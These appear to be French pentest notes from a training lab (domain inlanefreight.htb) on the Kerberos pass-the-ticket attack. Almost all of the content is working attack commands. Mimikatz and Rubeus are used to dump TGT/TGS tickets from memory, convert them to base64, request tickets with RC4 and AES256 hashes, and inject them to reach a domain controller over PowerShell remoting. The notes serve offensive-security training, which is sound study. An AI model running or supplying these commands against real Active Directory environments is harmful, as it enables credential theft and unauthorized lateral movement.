 # Pass the ticket
TGS et TGT peut être exporté et réutilisé vers d'autres machines. Il est possible d'extraire les tickets de son compte seulement ou de tout si admin local
## Exportation
### Mimikatz
``` powershell
privilege::debug
#Crée des fichiers .kirbi par billet
sekurlsa::tickets /export
```
### Rubeus
`Rubeus.exe dump /nowrap`
## Génération
* Voir Overpass the hash ci-haut
* Convertir un ticket en base64
`[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))`
## Importation
### Rubeus
```shell
#importation du disque
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
#Injection par base64
Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID<SNIP>
#Génération et injection
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
```
### Mimikatz
``` shell
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
```
On peut aussi utiliser `misc::cmd` pour lancer une nouvelle fenêtre au lieu d'injecter dans la session courante.

# Powershell Remoting et pass the ticket
Powershell remoting permet de se connecter à distance. Port TCP/5985 et TCP/5986. Doit être Admin, membre de Remote Management Users ou permissions explicites pour powershell remoting.
## Mimikatz
```powershell
privilege::debug
kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
exit
Enter-PSSession -ComputerName DC01
```
## Rubeus
`createnetonly` crée un processus temporaire caché pour éviter de poluer la sessions actuelle. Équivalent de `runas /netonly`. `/show` permet de voir le processus qui est caché par défaut.
```powershell
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
#nouvelle fenêtre
Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
```